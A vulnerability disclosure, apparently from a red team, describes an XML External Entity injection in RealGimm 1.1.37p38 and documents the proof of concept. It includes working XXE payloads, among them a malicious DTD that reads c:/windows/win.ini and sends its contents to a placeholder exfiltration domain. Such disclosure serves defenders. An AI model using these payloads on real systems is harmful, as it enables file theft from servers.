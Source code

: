 # CVE-ID | RealGimm by GruppoSCAI - XML External Entity Injection
An XML External Entity injection vunerability was found in RealGimm version 1.1.37p38. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, we access the function in which the vulnerability is present by clicking on *Gest. Tecnica -> Manutenzioni -> Scheda Visita/Manutenz. * and we click on the import icon:

![Import XML Functionality](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d31fdfd0-63ef-4450-8d32-d90098de6232)

Below the file import window:

![File import window](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9a29bcc2-934e-4b61-8ebb-edecca0e141a)


To demonstrate the presence of the vulnerability, we first create a file with the following content and import it using the functionality offered by the web application:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://[burp collaborator URL]"> %xxe; ]>
```
![File test.xml with payload](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/5d03b262-d80a-480c-88bb-7bbd1fe9234e)

![Import test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/72bf13ad-c62c-4435-a3c7-73152f753a5d)


Below the intercepted request and response:

![Request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/29790c98-d650-4b4b-9d32-59af598df027)


As seen in the following image, the test.xml file containing the malicious payload is successfully parsed and a http request is issued to the burp collaborator domain:

![Request recevied in burp collaborator](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/513a3abc-574d-484b-ac4f-2487fb77be5e)


Using the vulnerability just described, it is also possible to read any file present on the file system where the xml parser is running. For this purpose, on our attacking machine, we define a malicious.dtd dtd file that allows exfiltrating the contents of file c:/windows/win.ini:

```
<!ENTITY % file SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://[exiltration domain]/?x=%file;'>">
%eval;
%exfiltrate;
```
![Malicious dtd file](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/7b78dcd3-cdba-4f94-b3dc-0160549fb14d)


We accordingly update the previously used test.xml file with the following content:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://[exfiltration domain]/malicious.dtd"> %xxe; ]>
```
So let's import the test.xml file as we did previously.
![malicious test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/ae8646bd-0365-40d3-a0c4-c2403b3d91a8)
![test.xml import](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/04d3efae-6090-489a-8e60-eaeabf90e465)


As can be seen from the following image, from the web server logs, we can successfully exfiltrate the contents of the win.ini file:
![win.ini exfiltrated](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/69cffda1-8b57-4b92-8cd0-297f4296b946)


Below is the decoded content of the exfiltrated file:
![win.ini decoded](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b791a414-78ba-4507-a4e9-d1c129b92c52)


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 

## Discovered by

Paolo Caminati

Claudio Rimensi

Francesco Mercatili
